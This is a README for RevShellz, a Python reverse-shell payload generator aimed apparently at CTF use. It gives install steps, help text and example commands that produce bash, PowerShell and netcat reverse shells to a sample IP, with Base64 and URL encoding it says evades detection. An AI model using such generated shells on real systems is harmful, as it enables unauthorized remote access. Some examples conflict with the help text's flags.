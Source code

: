 <h1 align="center">
  <br>
  <a href="https://github.com/mkdirlove/RevShellz"><img src="https://github.com/mkdirlove/RevShellz/blob/main/logo.png" alt="RevShellz
"></a>
  <br>
  Yet another reverse shell generator written in Python.
  <br>
  #### Contributors

<a href="https://github.com/mkdirlove/RevShellz/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=mkdirlove/RevShellz" />
</a>
</h1>

#### Contributors

<a href="https://github.com/mkdirlove/RevShellz/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=mkdirlove/RevShellz" />
</a>

#### About
```
Initially developed by mkdirlove and enhanced by me (veilwr4ith), is a reverse shell payload generator compatible with Linux, Windows, and macOS. The updated version includes new features such as Base64 and URL encoding for payloads, which helps avoid straightforward detection by making them less immediately recognizable. This is particularly useful for Capture The Flag (CTF) challenges with payload restrictions. Additionally, I've incorporated various payloads into the tool's dictionary, including Python-based payloads, Lua, and msfvenom options for Metasploit.
```

#### Installation

Copy-paste this into your terminal:

```sh
git clone https://github.com/mkdirlove/RevShellz.git
```
```
cd RevShellz
```
```
python3 revshellz.py
```
or
```
python3 revshellz.py -h
```
#### Usage
``` 
░█▀▄░█▀▀░█░█░█▀▀░█░█░█▀▀░█░░░█░░░▀▀█ v2.0-dev
░█▀▄░█▀▀░▀▄▀░▀▀█░█▀█░█▀▀░█░░░█░░░▄▀░
░▀░▀░▀▀▀░░▀░░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀ 

Made with ❤️  by @mkdirlovee & @veilwr4ith

usage: test.py [-h] [-ip IPADDRESS] [-p PORT] [-os OPERATING_SYSTEM] [-pl PAYLOAD] [-l LIST] [-enc ENCODE]

RevShellz: Yet another reverse shell generator written in Python.

options:
  -h, --help            show this help message and exit
  -ip IPADDRESS, --ipaddress IPADDRESS
                        Target IP address
  -p PORT, --port PORT  Target port number
  -os OPERATING_SYSTEM, --operating-system OPERATING_SYSTEM
                        Target operating system (linux, windows, macos)
  -pl PAYLOAD, --payload PAYLOAD
                        Payload for reverse shell
  -l LIST, --list LIST  List available reverse shell payload types for the specified OS
  -enc ENCODE, --encode ENCODE
                        Encode the payload in Base64 or URL

```
#### Example

Listing reverse shells
```
python3 revshellz.py -l linux, windows, macos
```

#### Example

Generating reverse shell for Linux
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'bash -i' -os linux
```
Generating reverse shell for Windows
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'PowerShell #1' -os windows
```
Generating reverse shell for MacOS
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux
```
Generating reverse shell with URL Encoding
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux -enc url
```
Generating reverse shell with Base64 Encoding
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux -enc base64
```
